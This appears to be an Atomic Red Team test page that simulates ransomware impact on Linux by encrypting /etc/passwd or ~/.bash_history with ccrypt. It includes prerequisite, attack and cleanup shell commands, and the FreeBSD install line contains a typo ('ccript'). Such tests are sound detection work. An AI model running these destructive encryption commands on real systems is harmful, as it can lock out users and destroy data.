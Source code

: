 ## Atomic Test #3 - Encrypt files using ccrypt (FreeBSD/Linux)
Attempts to encrypt data on target systems as root to simulate an inturruption authentication to target system. If root permissions are not available then attempts to encrypt data within user's home directory.

**Supported Platforms:** Linux


**auto_generated_guid:** 08cbf59f-85da-4369-a5f4-049cffd7709f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| cped_file_path | path where you want your copied file to be | path | /tmp/passwd|
| root_input_file_path | path to the file that you want to be encrypted if you are root user | path | /etc/passwd|
| user_input_file_path | path to file that you want to be encrypted if you are normal user | path | ~/.bash_history|
| impact_command | command to show impact of encryption | string | sudo su|


#### Attack Commands: Run with `sh`! 


```sh
if [ $USER == "root" ]; then $which_ccencrypt #{root_input_file_path}; file #{root_input_file_path}.cpt; #{impact_command}; else $which_ccencrypt #{user_input_file_path}; file #{user_input_file_path}.cpt; #{impact_command}; fi
```

#### Cleanup Commands:
```sh
if [ $USER == "root" ]; then mv #{cped_file_path} #{root_input_file_path}; else cp #{cped_file_path} #{user_input_file_path}; fi
```



#### Dependencies:  Run with `sh`!
##### Description: Finds where ccencrypt and ccdecrypt is located and copies input file
##### Check Prereq Commands:
```sh
which_ccencrypt=`which ccencrypt`
which_ccdecrypt=`which ccdecrypt`
if [ $USER == "root" ]; then cp #{root_input_file_path} #{cped_file_path}; else cp #{user_input_file_path} #{cped_file_path}; fi
```
##### Get Prereq Commands:
```sh
(which pkg && pkg install -y ccript)||(which yum && yum -y install epel-release ccrypt)||(which apt-get && DEBIAN_FRONTEND=noninteractive apt-get install -y ccrypt)
```
